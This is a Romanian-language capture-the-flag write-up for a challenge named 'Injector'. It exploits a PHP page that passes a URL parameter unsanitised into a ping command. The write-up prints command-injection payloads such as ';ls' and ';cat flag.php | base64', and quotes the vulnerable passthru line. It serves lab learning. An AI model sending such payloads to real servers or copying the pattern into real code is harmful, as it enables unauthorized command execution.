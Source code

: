 🧩 Writeup: Injector

# 🧩 CTF Challenge Review: `Injector`

Acest challenge este un clasic de **Command Injection**.

---

## 🗃️ Structura Inițială

Am primit un serviciu web pe adresa:

http://<ip>:<port>/index.php?host=127.0.0.1


Pagina executa comanda:
```php
passthru("ping -c 2 " . $_GET['host']);
```

🔎 1. Testare inițială

Test standard:

http://<ip>:<port>/index.php?host=127.0.0.1

Răspuns: execută #ping#.

🧪 2. Exploatare Command Injection

Am testat concatenare cu ;:

http://<ip>:<port>/index.php?host=127.0.0.1;ls

Răspunsul a arătat:

flag.php
index.php

🧠 3. Enumerare cod sursă

Am folosit strings pentru a vedea codul din index.php:

http://<ip>:<port>/index.php?host=127.0.0.1;strings index.php


Output-ul a confirmat codul vulnerabil:

passthru("ping -c 2 " . $_GET['host']);

🔧 4. Accesarea flag.php

Citirea directă a flag.php cu cat nu a funcționat:

http://<ip>:<port>/index.php?host=127.0.0.1;cat flag.php


În schimb, am încercat alte metode:

```
strings flag.php
```

```
cat flag.php | base64
```

Exemplu:

http://<ip>:<port>/index.php?host=127.0.0.1;cat flag.php | base64


Am decodat apoi local:

```
echo "<output>" | base64 -d
```

🏁 5. Rezultat

Flag-ul a fost ascuns în fișierul flag.php.
După extragere și decodare, am obținut flag-ul final ✅
